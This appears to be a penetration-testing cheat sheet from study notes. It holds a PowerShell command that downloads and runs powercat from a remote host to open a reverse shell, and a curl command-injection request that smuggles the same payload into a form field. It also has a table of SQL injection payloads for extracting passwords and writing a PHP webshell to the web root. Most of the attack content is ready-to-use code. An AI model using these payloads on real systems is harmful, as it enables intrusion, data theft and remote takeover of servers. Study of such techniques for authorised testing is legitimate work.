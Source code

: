 Snippet to detect CMD or Powershell in Windows systems

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

If Powershell is available, we can use powercat.ps1 (Powercat is a PowerShell implementation of Netcat included in Kali) and python server

```shell
Command to trigger:
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 

Command injection:
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

### SQL Injection Attacks

> **Notes:**
> * Union-based payloads has to include the same number of columns as the original query and the data types need to be compatible between each column
> * **Useful Info to retrieve:**
> 	* `@version / database() / user()`
> 	* `SELECT table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()`
> * We can specify php code in a Union-based SQLi and output to a file, then trigger it to gain RCE

| **Payloads** | **Description** |
| ---- | ---- |
| `'` | Special characters. If any of them throws an error could mean SQL Injection is possible |
| `' OR 1=1 -- //` | Basic injection |
| `' AND 1=1 -- //` | **Boolean-based** SQLi. Since _1=1_ will always be TRUE, the application will return the values only if the user (or whatever field we have filled) is present in the database |
| `' AND IF (1=1, sleep(3),'false') -- //` | **Time-based** SQLi. IF condition will always be true inside the statement itself, so it will return false if the user is non-existent |
| **Error-based payloads** | **Description** |
| `' or 1=1 in (select @@version) -- //` | If it returns the version, querying the database interactively is possible, so we can run queries like this. If we receive an error specifying the number of columns we can filter the query to return just one column |
| `' or 1=1 in (select table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()) -- //` | Query db info |
| `' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //` | Example query |
| **Union-based payloads** | **Description** |
| `' ORDER BY 1-- //` | To discover the number of columns. It will order the results by a specific column, meaning it will fail whenever the selected column does not exist |
| `%' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database()  -- //` | Query db info |
| `%' UNION SELECT null, password, null FROM users  -- //` | Example query |
| `%' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //` | Write a shell in root folder |
| **Blind payloads** | **Description** |
| `' AND IF (1=1, sleep(3),'false') -- //` | **Time-based** SQLi. IF condition will always be true inside the statement itself, so it will return false if the user is non-existent |
| `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //` | Write a shell in root folder |
